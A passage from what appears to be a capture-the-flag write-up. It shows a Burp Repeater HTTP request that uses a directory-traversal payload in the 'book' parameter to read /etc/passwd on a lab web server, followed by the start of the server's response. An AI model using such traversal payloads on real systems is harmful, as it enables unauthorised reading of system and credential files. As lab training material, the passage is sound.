 ![burp intruder](/images/solstice_intruder3.png)  

Lets execute a similar request manually via burp repeater to verify the vulnerability.  
The `HTTP` request looks like the following.
```http
GET /index.php?book=../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.250.72:8593
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.250.72:8593/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=7kbv4b7lcnuu1uprcspap5i743
Connection: close

HTTP/1.1 200 OK
Host: 192.168.250.72:8593
Date: Mon, 12 Dec 2022 18:50:36 GMT
Connection: close
X-Powered-By: PHP/7.3.14-1~deb10u1
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8

<html>
    <head>
	<link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?book=list">Book List</a>
```